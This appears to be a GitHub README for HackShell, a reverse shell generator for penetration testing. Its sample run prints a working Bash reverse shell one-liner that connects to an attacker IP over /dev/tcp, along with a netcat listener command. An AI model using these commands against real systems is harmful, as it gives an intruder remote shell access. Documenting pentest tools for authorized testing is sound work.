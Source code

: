 # HackShell
HackShell is a powerful reverse shell generator for penetration testing, offering customizable shells for multiple platforms (Bash, Python, PowerShell, etc.). It includes extra tools for discovering hidden info like IPs, emails, and domains, making it ideal for streamlined security testing.

## Install 
- From Github :
  ``` 
  git clone https://github.com/HckN1L/HackShell  
  cd HackShell   
  ```  
## Usage
```
$ cd HackShell
$ chmod +x HackShell.sh
$ ./HackShell.sh

 _   _            _     ____  _          _ _ 
| | | | __ _  ___| | __/ ___|| |__   ___| | |
| |_| |/ _` |/ __| |/ /\___ \| '_ \ / _ \ | |
|  _  | (_| | (__|   <  ___) | | | |  __/ | |
|_| |_|\__,_|\___|_|\_\|____/|_| |_|\___|_|_|

==============================================================
https://x.com/HckN1L
https://github.com/HckN1L
https://www.linkedin.com/in/indranil-sen-a1888a256
==============================================================
$ Enter the IP address: 10.10.10.10 
$ Enter the port number: 1234

[+] Reverse Shell Options:
1. Bash
2. Python
3. Perl
4. PHP
5. Netcat (nc)
6. Ruby
7. PowerShell

Choose shell type [1-7]: 1

[+] Bash Reverse Shell:

bash -i >& /dev/tcp/10.10.10.10/1234 0>&1

[+] Netcat Listener: nc -lvnp 1234
```
